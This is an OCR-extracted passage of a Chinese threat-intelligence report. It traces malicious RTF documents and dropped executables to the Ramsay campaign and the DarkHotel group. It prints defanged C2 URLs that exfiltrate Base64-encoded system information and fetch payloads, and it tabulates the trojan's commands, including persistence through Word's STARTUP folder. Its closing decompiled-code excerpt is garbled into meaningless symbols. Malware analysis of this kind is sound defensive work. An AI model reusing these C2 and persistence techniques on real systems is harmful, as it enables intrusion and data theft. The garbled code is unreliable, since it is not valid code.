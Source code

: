 步骤6（猜测）：攻击者根据固定的Magic值，定时在攻陷的受害者主机或共享目录中搜寻文件，找到这批文档，取出尾部附加的受害主机GUID和窃密数据，完成渗出。  

## 4.样本关联与组织归属分析  

### 4.1 样本关联  

根据"accept.docx"包含的"afchunk.rtf"攻击文档的元数据和漏洞利用特征，能关联出另一例"afchunk.rtf":  

![](https://cdn-mineru.openxlab.org.cn/extract/1da31d47-b11c-47fa-aa71-8856de8b5fdd/7eff0c9e68cef7fa5586274a83bea29f6ad79c9c7681a5366d257f4478b52938.jpg)  

图 4-1 已知"accept.docx"包含的afchunk.rtf  

![](https://cdn-mineru.openxlab.org.cn/extract/1da31d47-b11c-47fa-aa71-8856de8b5fdd/4cdf0f85a818ba21ac3403937f2e49f5448ae4ba52783a67e5b6596df2801366.jpg)  
图4-2新关联出的afchunk.rtf  

新关联出的"afchunk.rtf"的母体来自RAR压缩包"技術協.rar"，整体执行流程如下:  

![](https://cdn-mineru.openxlab.org.cn/extract/1da31d47-b11c-47fa-aa71-8856de8b5fdd/54d84676329f9b83066b0af0ba1a46e599b81b4d0ce47067b5aa7dc686e99fb9.jpg)  
图4-3关联样本的完整执行流程  

![](https://cdn-mineru.openxlab.org.cn/extract/1da31d47-b11c-47fa-aa71-8856de8b5fdd/53a0cb285d6e213dd0198d5ec1018f5ef7933240475435eb5f506caaafefaada.jpg)  
图4-4获取进程列表并返回给C2  

再向系统启动目录下释放"svupdate32.exe"和"msrvc32.exe"。  

"msrvc32.exe"负责收集系统信息，包括系统的版本、架构、地区、语言和注册者，并构造URL将这些信息发送回C2：  

http://win-api-essentials[.]com/package/v2.php?im $=$ 000C29A414B2&fg $=$ u&inf $=$ Base64编码的系统信息  

再构造URL，下载文件到"%LOCALAPPDATA%\Local\VirtuaIStore\"目录下的随机命名文件：http://win-api-essentials[.]com/package/v2.php?im $=$ 000C29A414B28&fg=d备用C2: http://service.email-126[.]net/box/open.php?se $=$ 000C29A414B2&fg=d最后根据C2返回数据中包含的指令和文件名，对随机命名的文件进行下一步操作：  

#### 表4-1可接收的指令和功能  

<html><body><table><tr><td>指令</td><td>功能</td></tr><tr><td>tta</td><td>将随机命名的文件，重命名为给定的字符</td></tr><tr><td>ttx</td><td>将随机命名的文件，重命名为：给定的字符+.exe，休眠5秒后将其运行</td></tr><tr><td>ttt</td><td>将随机命名的文件，移动到临时目录下的给定字符作文件名的文件</td></tr><tr><td>ttw</td><td>将随机命名的文件，移动到“%LOCALAPPDATA%\Roaming\Microsoft\Word\STARTUP”目录</td></tr><tr><td></td><td>下，文件名换为：给定的字符+.wll，以此实现在Word程序启动时将其调用运行</td></tr><tr><td>其他</td><td>将随机命名的文件，重命名为：给定的字符+.exe+其他</td></tr></table></body></html>  

与Samsay活动，以及DarkHotel历史木马的关联：  

经过对比，"svupdate32.exe"组件与本次Ramsay活动的木马，以及2019年1月被腾讯御见曝光【1】过的DarkHote组织基于DropBox的木马程序：eea409befee23eb475e4161f06d529a，三者彼此都存在独特代码的共享：  

if ( $\sqrt{5},5=\sqrt{5}$ $v{\bar{\theta}}{\bar{\mathbf{5}}}={\bar{\theta}}{\mathbf{i}}$ $\begin{array}{r l}{\mathrm{~\boldmath~v~}{\boldsymbol{\Sigma}}}&{{}=}\end{array}$ (void \*\*\*)sub_401280(&v76, L"\\"); LOBYTE(v102) = 5; $\downarrow\perp=^{*}\downarrow\downarrow$ if (v9 ) $\smash{\psi_{\perp}\in\mathsf{\Gamma}}=\beta_{\parallel}\in\mathsf{\Gamma}$ else $\begin{array}{r l r}{\mathrm{~\boldmath~v~}\mathrm{~\boldmath~\Gamma~}}&{{}}\end{array}=}&{\hat{\bf g}_{s}\mathrm{~\boldmath~\cdot~}$ $\Delta75~=~(\mathrm{int}~^{-*})8\sqrt{8}5;$ $\begin{array}{r l}{\mathbb{V}\mathrm{\mathcal{I}}4}\end{array}=\mathbb{V}\mathbb{1}\mathbb{A}_{\mathrm{j}}^{*}$ $\begin{array}{r l r}{\sqrt{\lambda}}&{{}=}&{\mathsf{P}\mathsf{P}\mathbf{V}\mathbf{j}}\end{array}$ $\downarrow\pm1\pm$ stcal\*)(PVD,vid\*,int\*)(\*(PpV, v, &v); $\begin{array}{r}{\vee\mathbb{1}\mathbb{2}=\vee\mathbb{1}\mathbb{1};}\end{array}$ sub_401330(&v76); if $\{\mathrm{~\boldmath~v~l~a~}\}=\emptyset$ $\downarrow\downarrow\downarrow=$ (void \*\*\*)sub_401280(&v76, L"MSrvcSecureUpdate"); LOBYTE $\left(\mathrm{\vee162}\right)=\mathrm{\sf5}_{\mathrm{i}}$  
